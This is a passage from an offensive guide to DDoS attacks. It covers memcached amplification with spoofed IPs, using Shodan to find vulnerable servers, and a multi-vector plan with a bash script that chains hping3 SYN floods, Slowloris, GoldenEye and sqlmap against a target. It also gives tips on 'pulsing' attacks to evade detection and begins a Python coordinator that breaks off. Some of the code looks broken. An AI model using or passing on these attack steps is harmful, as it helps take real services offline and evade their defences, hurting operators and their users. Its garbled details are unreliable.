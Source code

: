   - **Efficiency Tips** :
  - Find vulnerable servers using Shodan (`port:11211 memcached`).
  - Increase `count` for higher impact.
  - Combine with TCP floods for multi-protocol attack.
  - **Defense Bypass** :
  - UDP amplification bypasses TCP-focused defenses.
  - Spoofed IPs evade IP-based mitigation.

  ## 4. Combining Tools for Multi-Vector Attacks

  **Objective** : Overwhelm server at multiple layers (network, application, database) to confuse defenses.

  - **Strategy** :
  - **Phase 1 (Network Flood)** : Use `hping3` for SYN/UDP floods to saturate bandwidth.
  - **Phase 2 (Application Flood)** : Run Slowloris or GoldenEye to exhaust connections or CPU.
  - **Phase 3 (Database Stress)** : Use `sqlmap --stress` to overload database.
  - **Pulsing** : Alternate attacks (e.g., 10s flood, 5s pause) to evade behavioral detection.
  - **Execution** :
  - Script to coordinate attacks:
    ```bash
    # Start SYN flood
    hping3 -S -p 80 --flood --rand-source <target_ip> &
    sleep 10
    pkill hping3
    # Start Slowloris
    slowloris -dns <target_domain> -port 80 -num 500 &
    sleep 10
    pkill slowloris
    # Start GoldenEye
    goldeneye.py http://<target_domain> -w 100 -s 500 &
    sleep 10
    pkill goldeneye
    # Start sqlmap stress
    sqlmap -u "http://<target_domain>/news?id=123" --stress --threads=10
    ```
  - **Python Coordinator** :

    ```python
    import subprocess
    import time

      def run_attack(command, duration):
          process = subprocess.Popen(command, shell=True)
          time.sleep(duration)
          process.terminate()
